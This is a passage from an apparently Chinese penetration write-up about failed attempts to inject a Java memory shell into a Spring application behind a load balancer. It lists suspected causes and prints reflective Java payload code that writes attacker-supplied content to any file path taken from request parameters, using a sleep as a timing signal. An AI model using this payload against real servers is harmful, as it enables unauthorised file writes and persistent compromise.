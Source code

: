 延时5 秒， 说明 defineClass 失败

![](./img/1708841809583.png)


6）排查失败原因

根据经验猜测可能的原因如下：

- BCEL 的类加载问题
  - 已考虑到，可排除
- BASE64解码差异
  - 已考虑到，可排除
- 写入的字节码不完整
  - 有负载
- 写入的字节码不正确
  - 比如 base64 忘记 url 编码等
- 内存马注入器兼容性
- ...

经过依次测试找到了 defineClass 失败的原因：目标有负载

**6、第n次失败的利用 ？**

优化后的代码，主要针对负载的情况

1）创建文件

```java
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Object requestAttributes = classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("getRequestAttributes").invoke(null);
Object request = requestAttributes.getClass().getMethod("getRequest").invoke(requestAttributes);
String file_path = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"file_path"});
String code = (String) request.getClass().getMethod("getParameter", new Class[]{String.class}).invoke(request, new Object[]{"user_name"});
if (file_path != null && !file_path.isEmpty()) {
    File file = new File(file_path);
    if (file.exists()) {
        if (file.delete()) {
            BufferedWriter writer = new BufferedWriter(new FileWriter(file_path, true));
            writer.write(code);
            writer.close();
            Thread.sleep(3000);
        }
    }
}
```
